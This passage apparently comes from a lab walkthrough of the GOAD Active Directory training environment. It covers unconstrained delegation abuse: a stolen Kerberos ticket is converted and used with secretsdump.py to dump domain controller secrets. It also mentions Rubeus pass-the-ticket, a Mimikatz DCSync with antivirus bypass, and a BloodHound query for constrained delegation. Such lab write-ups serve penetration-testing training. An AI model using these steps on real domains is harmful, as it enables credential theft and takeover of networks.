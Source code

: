 ```bash
cat tgt.b64|base64 -d > ticket.kirbi
ticketConverter.py ticket.kirbi ticket.ccache
export KRB5CCNAME=/workspace/unconstrained/ticket.ccache
secretsdump.py -k -no-pass SEVENKINGDOMS.LOCAL/'KINGSLANDING$'@KINGSLANDING
```

![deleg_unconcstrained_secrets_dump.png](/assets/blog/GOAD/deleg_unconcstrained_secrets_dump.png)

> Another way of exploitation, is to do a ptt with Rubeus and launch a dcsync with Mimikatz but this implies to run Mimikatz on Winterfell and bypass the defender AV

> Unless you didn't notice, the unconstrained delegation abuse was here exploited to pass from the child to the parent domain ;) 
{: .prompt-tip }

### Constrained Delegation

- Find constrained delegation with bloodhound :

```
MATCH p=(u)-[:AllowedToDelegate]->(c) RETURN p
```

![delegation_bh_constrain.png](/assets/blog/GOAD/delegation_bh_constrain.png)

